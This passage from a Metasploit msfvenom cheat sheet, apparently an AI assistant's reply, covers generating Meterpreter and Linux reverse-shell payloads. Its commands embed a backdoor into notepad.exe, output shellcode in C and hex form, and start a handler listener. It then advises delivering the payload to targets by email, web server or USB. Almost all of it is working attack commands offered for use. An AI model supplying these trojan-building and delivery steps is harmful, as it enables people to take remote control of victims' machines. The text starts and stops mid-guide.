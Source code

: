 #### 16. Use Templates
To inject a payload into an existing executable:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -x notepad.exe -k -f exe > infected_notepad.exe
```

---

### **Shellcode Payloads**

#### 17. Shellcode for Exploits
Generates shellcode for manual injection:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c
```

#### 18. Shellcode in Hex Format
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f hex
```

---

### **Payload Formats**

- **EXE**: For Windows executable files.
- **ELF**: For Linux binary files.
- **APK**: For Android applications.
- **MACHO**: For macOS binaries.
- **RAW**: For custom scripts like PHP, Python, or ASP.
- **HEX**: For embedding shellcode into exploits.
- **C**: For use in C programs.
- **JS**: For injecting JavaScript.

---

### **Testing the Payload**
1. Start a listener in Metasploit:
   ```bash
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.10
   set LPORT 4444
   exploit
   ```
2. Deliver the payload to the target (via email, web server, USB, etc.).
3. Wait for the connection in Metasploit.

---

Let me know if you need additional examples or help with specific scenarios!

### **Encoders in Metasploit**
